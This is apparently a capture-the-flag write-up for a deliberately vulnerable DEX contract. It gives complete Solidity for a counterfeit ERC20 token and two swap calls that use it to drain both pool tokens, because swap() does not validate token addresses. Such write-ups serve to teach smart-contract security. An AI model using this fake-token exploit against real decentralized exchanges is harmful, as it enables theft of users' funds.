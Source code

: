 # Answer

Goal: Steal all DEX funds - this time both token1 and token 2.

## 1. Craft malicious token

The DEX two has removed one of the guards from `swap()`. That is now it doesn't check if token address indeed match the ones stored in storage (token1, token2). This means we can pass our own malicious form of the token. One version of such token would be:

```solidity
pragma solidity ^0.8.20;

import {ERC20} from '@openzeppelin/contracts/token/ERC20/ERC20.sol';

contract MaliciousToken is ERC20 {

    constructor(string memory name, string memory symbol) ERC20(name, symbol) { }

    function transferFrom(address sender, address recipient, uint256 amount) public override returns (bool) {
        return true;
    }

    function balanceOf(address account) public view override returns (uint256) {
        return 1;
    }
}
```

Because it is still using swap proportion, passing an amount of one will yield exactly all balance of the "to" token.

## 2. Exploiting swap

After deploying MaliciousToken we simply pass the address to the `swap()` as "from" together with an amount of "1". After two swaps (for each token) we should end up with all the tokens stolen from DEX.

```js
await contract.swap(malTokenAddr, token1Addr, 1)
await contract.swap(malTokenAddr, token2Addr, 1)
```
